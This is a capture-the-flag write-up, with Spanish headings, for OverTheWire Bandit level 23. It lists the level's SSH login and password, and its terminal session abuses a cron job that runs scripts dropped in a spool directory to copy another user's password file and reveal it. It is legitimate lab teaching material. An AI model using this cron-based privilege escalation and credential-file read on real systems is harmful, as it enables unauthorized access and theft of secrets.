 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
-- **Host:** ssh bandit23@bandit.labs.overthewire.org -p 2220
- **Port:** 2220 -
- **Username:** bandit23
- **Password:** QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solución
```bash
bandit23@bandit:~$ la /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  .placeholder
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir  sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24.sh
cat: /etc/cron.d/cronjob_bandit24.sh: No such file or directory
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/irc01
bandit23@bandit:~$ cd /tmp/irc01
bandit23@bandit:/tmp/irc01$ nano ircscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/irc01$ cat ircscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/irc01/pasword
bandit23@bandit:/tmp/irc01$ chmod 777 ircscript.sh
bandit23@bandit:/tmp/irc01$ touch pasword
bandit23@bandit:/tmp/irc01$ chmod 666 pasword
bandit23@bandit:/tmp/irc01$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     51 Feb 28 18:31 ircscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 pasword
bandit23@bandit:/tmp/irc01$ cp ircscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/irc01$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     51 Feb 28 18:31 ircscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 pasword
bandit23@bandit:/tmp/irc01$ cat pasword
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/irc01$
```

## Notas Adicionales

## Referencias

